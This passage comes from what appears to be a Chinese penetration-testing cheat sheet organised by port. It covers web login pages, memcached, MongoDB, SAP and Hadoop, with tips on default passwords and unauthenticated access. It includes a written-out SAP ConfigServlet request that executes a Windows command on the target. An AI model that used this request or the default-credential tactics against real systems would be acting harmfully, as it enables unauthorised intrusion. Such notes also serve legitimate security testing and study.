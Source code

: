 `其他各类 web 服务`

- 如果有登录页面就去搜搭建教程尝试默认口令,或访问初始化安装的页面
- 如果目标采用的是开源服务,去看看项目 issue
- 这块内容太多就不一一列举 详情请看 [Web_CVE漏洞记录](../Web安全/Web_CVE漏洞记录.md#服务)

---

# 11211

`memcached`

- [memcached未授权访问](../软件服务安全.md#memcached)

---

# 27017/27018

`mongodb`

- 弱口令
- 未授权访问

---

# 50000

`SAP`

- `http://<target>:50000/ctc/servlet/com.sap.ctc.util.ConfigServlet?param=com.sap.ctc.util.FileSystemConfig;EXECUTE_CMD;CMDLINE=cmd.exe /c ipconfig /all`

---

# 50010/50030/50070

`Hadoop`

- [Hadoop未授权访问](../软件服务安全.md#hadoop)
